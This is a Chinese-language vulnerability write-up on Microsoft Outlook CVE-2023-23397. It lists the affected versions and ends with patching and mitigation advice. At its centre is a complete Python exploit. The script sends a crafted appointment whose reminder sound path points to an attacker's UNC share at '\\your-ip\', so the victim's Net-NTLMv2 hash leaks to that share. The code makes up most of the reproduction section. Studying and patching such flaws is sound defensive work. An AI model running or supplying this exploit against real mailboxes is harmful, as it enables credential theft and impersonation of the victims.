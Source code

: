 # Microsoft Outlook 权限提升漏洞 CVE-2023-23397

## 漏洞描述

该漏洞存在于 Microsoft Outlook 中，是一个身份验证绕过漏洞。未经身份验证的远程攻击者仅通过向受影响的系统发送特制电子邮件，从而访问用户的Net-NTLMv2 哈希，进而可以在中继攻击中使用此哈希来冒充用户，从而有效地绕过身份验证。

## 漏洞影响

```
Microsoft Outlook 2016 (64-bit edition)
Microsoft Outlook 2013 Service Pack 1 (32-bit editions)
Microsoft Outlook 2013 RT Service Pack 1
Microsoft Outlook 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2019 for 32-bit editions
Microsoft 365 Apps for Enterprise for 32-bit Systems
Microsoft Office 2019 for 64-bit editions
Microsoft 365 Apps for Enterprise for 64-bit Systems
Microsoft Office LTSC 2021 for 64-bit editions
Microsoft Outlook 2016 (32-bit edition)
Microsoft Office LTSC 2021 for 32-bit editions
```

## 漏洞复现

exp：

```
python CVE-2023-23397.py --path '\\your-ip\'
```

```
import smtplib, datetime, argparse
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication
from email.utils import COMMASPACE, formatdate
from independentsoft.msg import Message

## Mail configuration : change it !
smtp_server = "mail.example.com"
smtp_port = 587

sender_email = "attacker@mail.example.com"
sender_password = "P@ssw0rd"

recipients_email = ["victim@mail.example.com"]

class Email:
    def __init__(self, smtp_server, port, username, password, recipient):
        self.smtp_server = smtp_server
        self.port = port
        self.username = username
        self.password = password
        self.recipient = recipient

    def send(self, subject, body, attachment_path):
        msg = MIMEMultipart()
        msg['From'] = self.username
        msg['To'] = COMMASPACE.join(self.recipient)
        msg['Date'] = formatdate(localtime=True)
        msg['Subject'] = subject
        
        msg.attach(MIMEText(body))

        with open(attachment_path, 'rb') as f:
            part = MIMEApplication(f.read(), Name=attachment_path)
            part['Content-Disposition'] = f'attachment; filename="{attachment_path}"'
            msg.attach(part)

        try:
            server = smtplib.SMTP(self.smtp_server, self.port)
            server.starttls()
            server.login(self.username, self.password)
            server.sendmail(self.username, self.recipient, msg.as_string())
            server.quit()
            print("[+] Malicious appointment sent !")


        except Exception as e:
            print("[-] Error with SMTP server...", e)

parser = argparse.ArgumentParser(description='CVE-2023-23397 POC : send a malicious appointment to trigger NetNTLM authentication.')
parser.add_argument('-p', '--path', type=str, help='Local path to process', required=True)
args = parser.parse_args()

appointment = Message()
appointment.message_class = "IPM.Appointment"
appointment.subject = "CVE-2023-23397"
appointment.body = "New meeting now !"
appointment.location = "Paris"
appointment.appointment_start_time = datetime.datetime.now()
appointment.appointment_end_time = datetime.datetime.now()
appointment.reminder_override_default = True
appointment.reminder_sound_file = args.path
appointment.save("appointment.msg")

email = Email(smtp_server, smtp_port, sender_email, sender_password, recipients_email)

subject = "Hello There !"
body = "Important appointment !"
email.send(subject, body, "appointment.msg")
```

## 漏洞修复

目前微软官方已针对受支持的产品版本发布了修复该漏洞的安全补丁，建议受影响用户开启系统自动更新安装补丁进行防护。

注：由于网络问题、计算机环境问题等原因，Windows Update 的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。右键点击Windows 徽标，选择“设置(N)”，选择“更新和安全”-“Windows 更新”，查看该页面上的他提示信息，也可点击“查看更新历史记录”查看历史更新情况。

针对未成功安装更新补丁的情况，可直接下载离线安装包进行更新，链接如下：
https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-23397

临时防护措施：

若用户无法正常进行补丁修复，在不影响正常业务的情况下，可使用以下措施对漏洞进行防护：

1. 将用户添加到受保护的用户安全组，以防止使用 NTLM 作为身份验证机制。注意：该操作可能会对需要 NTLM 的应用程序造成一定影响。详情请参考：
   https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group
2. 用户可通过在网络中同时使用外围防火墙和本地防火墙，并通过 VPN 设置来阻止 TCP 445/SMB 从网络出站。注意：该操作将禁止发送 NTLM 身份验证消息到远程文件共享。